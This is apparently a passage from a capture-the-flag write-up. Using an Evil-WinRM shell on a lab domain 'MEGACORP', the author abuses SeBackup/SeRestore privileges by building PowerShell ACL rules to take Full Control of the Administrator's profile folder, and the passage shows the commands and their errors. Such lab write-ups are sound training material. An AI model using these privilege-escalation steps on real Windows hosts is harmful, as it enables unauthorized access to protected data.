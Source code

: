 ```text
Kerberos support for Dynamic Access Control on this device has been disabled.
```

This user has backup and restore privileges, which if I remember correctly is a quick and easy path to escalate privileges "This privilege causes the system to grant all read access control to any file \(only read\)."

[https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea\_Pierini-Whoami\_Priv\_Show\_Me\_Your\_Privileges\_And\_I\_Will\_Lead\_You\_To\_System.pdf](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)

> If you have SeBackup& SeRestoreprivileges\(Backup Operators group\) you can set permissio nand ownership on each file & folder =WIN!

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> $user = MEGACORP\jorden
The module 'MEGACORP' could not be loaded. For more information, run 'Import-Module MEGACORP'.
At line:1 char:9
+ $user = MEGACORP\jorden
+         ~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (MEGACORP\jorden:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CouldNotAutoLoadModule
*Evil-WinRM* PS C:\Users\jorden\Documents> $user = 'MEGACORP\jorden'
*Evil-WinRM* PS C:\Users\jorden\Documents> cd c:\
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/25/2019  12:41 PM                DFSRoots
d-----         1/7/2020   7:23 PM                inetpub
d-----        9/25/2019   5:01 AM                PerfLogs
d-r---         1/9/2020   1:18 PM                Program Files
d-----         1/9/2020   1:18 PM                Program Files (x86)
d-r---         1/9/2020   5:14 PM                Users
d-----         1/9/2020   2:39 PM                Windows


*Evil-WinRM* PS C:\> $folder = 'C:\Users\Administrator'
*Evil-WinRM* PS C:\> $acl = Get-ACL $folder
*Evil-WinRM* PS C:\> $aclperms = $user, "Full Control", "ContainerInherit, ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\> $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
Cannot convert argument "1", with value: "Full Control", for "FileSystemAccessRule" to type "System.Security.AccessControl.FileSystemRights": "Cannot convert value "Full Control" to type "System.Security.AccessControl.FileSystemRights". Error: "Unable to match the identifier name Full Control to a valid enumerator name. Specify one of the following enumerator names and try again:
ListDirectory, ReadData, WriteData, CreateFiles, CreateDirectories, AppendData, ReadExtendedAttributes, WriteExtendedAttributes, Traverse, ExecuteFile, DeleteSubdirectoriesAndFiles, ReadAttributes, WriteAttributes, Write, Delete, ReadPermissions, Read, ReadAndExecute, Modify, ChangePermissions, TakeOwnership, Synchronize, FullControl""
At line:1 char:12
+ $aclrule = New-Object System.Security.AccessControl.FileSystemAccessR ...
+            ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodException
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectCommand
```
